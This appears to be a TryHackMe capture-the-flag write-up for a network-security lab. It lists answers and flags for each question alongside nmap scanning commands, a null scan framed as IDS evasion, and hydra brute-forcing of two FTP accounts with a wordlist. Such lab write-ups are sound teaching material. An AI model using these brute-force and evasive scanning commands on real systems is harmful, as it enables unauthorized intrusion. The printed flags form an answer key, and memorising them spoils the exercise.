 # TryHackMe: Net Sec Challenge Writeup

## Question 2.1

**What is the highest port number being open less than 10,000?**
**Answer:** `8080`

### 🔍 Command:

```bash
nmap -sS -vv -sV -p1-10000 <target>
```

* `-sS`: TCP SYN scan for stealth
* `-vv`: Increase verbosity
* `-sV`: Version detection
* `-p1-10000`: Scan ports from 1 to 10000

---

## Question 2.2

**There is an open port outside the common 1000 ports; it is above 10,000. What is it?**
**Answer:** `10021`

### 🔍 Command:

```bash
nmap -p- <target>
```

* `-p-`: Scan all 65535 ports

---

## Question 2.3

**How many TCP ports are open?**
**Answer:** `6`

### 🔍 Command:

```bash
nmap -sS -sV -p- <target>
```

* Helps count the number of open TCP ports with version detection

---

## Question 2.4

**What is the flag hidden in the HTTP server header?**
**Answer:** `THM{web_server_25352}`

### 🔍 Command:

```bash
nmap -sV --script=http-headers -p80 <target>
```

* Scans HTTP headers for hidden information on port 80

---

## Question 2.5

**What is the flag hidden in the SSH server header?**
**Answer:** `THM{946219583339}`

### 🔍 Command:

```bash
nmap --script ssh2-enum-algos -sV -p22 <target>
```

* Enumerates supported SSH algorithms; can reveal header info

---

## Question 2.6

**We have an FTP server listening on a nonstandard port. What is the version of the FTP server?**
**Answer:** `vsftpd 3.0.3`

### 🔍 Command:

```bash
nmap -sV -p- <target>
```

* `-sV` reveals the version info
* Used during full port scan

---

## Question 2.7

**We learned two usernames (eddie, quinn). What is the flag in one of their FTP accounts?**
**Answer:** `THM{321452667098}`

### 🔍 Commands:

```bash
hydra -l eddie -P rockyou.txt ftp://<target>:10021
hydra -l quinn -P rockyou.txt ftp://<target>:10021 -v
```

* Brute force login for eddie and quinn

```bash
ftp <target> 10021
```

* Logged in via FTP and retrieved `ftp_flag.txt`

---

## Question 2.8

**Solve the challenge on http\://<target>:8080 to get the flag.**
**Answer:** `THM{f7443f99}`

### 🔍 Command:

```bash
nmap -sN <target>
```

* `-sN`: Null scan (no flags) to attempt stealth and IDS evasion

---



